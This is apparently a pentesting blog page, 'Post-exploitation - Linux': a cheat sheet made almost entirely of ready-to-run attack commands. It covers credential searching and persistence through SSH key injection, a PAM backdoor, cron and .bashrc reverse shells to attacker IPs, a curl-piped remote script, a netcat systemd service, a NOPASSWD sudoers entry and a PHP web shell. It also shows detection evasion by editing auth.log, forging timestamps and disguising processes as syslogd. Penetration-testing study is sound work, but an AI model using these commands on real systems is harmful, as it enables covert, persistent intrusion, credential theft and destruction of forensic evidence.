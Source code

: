 ```yaml
---
title: 7. Post-exploitation - Linux
date: 2024-08-02 15:00:00
categories:
  - Pentesting
  - Linux
tags:
  - Pentesting
  - Linux
  - Post-exploitation
  - Persistence
toc: true
---
```


---
Step 7 in a penetration test: Post-exploitation.
Install backdoors for persistence, extract credentials and relevant data, clean step foots. 

---
<!-- more -->

<br>


## Credentials
```bash Eviltree
# regex
python3 eviltree.py -r $dir -x ".{0,3}passwd.{0.3}[=]{1}.{0,18}" -A -q -i -v
# keywords
python3 eviltree.py -r $dir -k passw,db_,admin,account,user,token -A -q -i -v
```

<br>

## Persistence
SSH backdoor
```bash
git clone https://github.com/NinjaJc01/ssh-backdoor
```

Add yourself to authorized users
```bash
# on local machine: generate public key
ssh-keygen 
# on local machine: copy the public key to victim
scp ~/.ssh/id_rsa.pub remote-user@$IP:~/.ssh/
# on victim machine: add the public key to authorized_keys 
cat ~/.ssh/id_rsa.pub >> authorized_keys
# on local machine: set the file permissions
chmod 600 ~/.ssh/authorized_keys
# on local machine: SSH in
ssh -i ~/.ssh/id_rsa remote-user@$IP # -o PubkeyAcceptedKeyTypes=rsa-sha2-256 
```

Create a cronjob
```bash shell.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.109/443 0>&1
```
```bash create cronjob
echo "* *     * * *   root    curl http://10.10.10.109:80/shell.sh | bash &" >> /etc/crontab
```

Revshell via `.bashrc`
```bash
echo 'bash -i >& /dev/tcp/10.10.10.10/443 0>&1' >> ~/.bashrc
```

PAM (Pluggable Authentication Modules) Backdoor
```bash
git clone https://github.com/zephrax/linux-pam-backdoor
# generate backdoored pam_unix.so
./backdoor.sh -v 1.3.0 -p som3_s3cr4t_p455w0rd

# !! identify the PAM version installed on the system !!

# copy the generated backdoor to the afferent directory
cp pam_unix.so /usr/lib/security/
```

Custom service
```bash
nano ~/.config/systemd/user/backdoor.service
```
```conf ~/.config/systemd/user/backdoor.service
[Unit]
Description=Very important backdoor.[Service]
Type=simple
ExecStart=/usr/bin/nc -e /bin/bash 10.10.10.10 443 2>/dev/null
[Install]
WantedBy=default.target
```
```bash
systemctl --user enable backdoor
```

Add user to sudoers
```bash
echo 'username        ALL=(ALL)        NOPASSWD: ALL' >> /etc/sudoers
```

PHP backdoor in webapp
```php
<?php
    if (isset($_REQUEST['explicit_cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['explicit_cmd']) . "</pre>";
    }
?>
```

Background reverse shell
```bash Reverse shell every 2 minutes
# $att_ip is the attacker's IP
while :; do setsid bash -i &>/dev/tcp/$att_ip/8443 0>&1; sleep 120; done &>/dev/null &
```

<br>

## Avoid detection
Hide your SSH connection
> nothing is added to `/var/log/utmp`
> user won't appear in `w` or `who` output
```bash
ssh -o UserKnownHostsFile=/dev/null -T user@$IP 'bash -i'
```

Change file timestamp
```bash
touch -t YYYYMMDDhhmm filename
```

Don't remove log files - it is suspicious. Replace the domains and IPs
```bash
cd /dev/shm; grep -v "$domain" /var/log/auth.log > a.log; cat a.log > /var/log/auth.log; rm -f a.log
```

Hide a command by masking it in the `syslogd`
```bash scan the victim's network
exec -a syslogd nmap -T0 10.0.2.1/24
```

Start a background hidden process in the `syslogd`
```bash
exec -a syslogd nmap -T0 10.0.2.1/24 &>nmap.log &
```

<br>

---
---

